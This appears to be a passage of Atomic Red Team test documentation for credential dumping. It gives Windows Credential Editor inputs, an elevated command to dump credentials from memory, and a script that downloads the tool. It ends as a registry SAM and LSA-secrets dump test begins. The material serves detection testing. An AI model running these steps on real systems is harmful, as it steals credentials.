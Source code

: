 
<br/>
<br/>

## Atomic Test #3 - Windows Credential Editor
Dump credentials from memory using Windows Credential Editor from https://www.ampliasecurity.com/research/windows-credentials-editor/

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting data should be placed | Path | %temp%\output.txt|
| wce_exe | Path of Windows Credential Editor executable | Path | PathToAtomicsFolder\T1003\bin\wce.exe|
| wce_url | Path to download Windows Credential Editor zip file | url | https://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip|
| wce_zip_hash | File hash of the Windows Credential Editor zip file | String | 8F4EFA0DDE5320694DD1AA15542FE44FDE4899ED7B3A272063902E773B6C4933|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
#{wce_exe} -o #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Credential Editor must exist on disk at specified location (#{wce_exe})
##### Check Prereq Commands:
```
if (Test-Path #{wce_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
$parentpath = Split-Path "#{wce_exe}"; $zippath = "$parentpath\wce.zip"
if(Invoke-WebRequestVerifyHash "#{wce_url}" "$zippath" #{wce_zip_hash}){
  Expand-Archive $zippath $parentpath\wce -Force
  Move-Item $parentpath\wce\wce.exe "#{wce_exe}"
  Remove-Item $zippath, $parentpath\wce -Recurse
}
```




<br/>
<br/>

## Atomic Test #4 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7
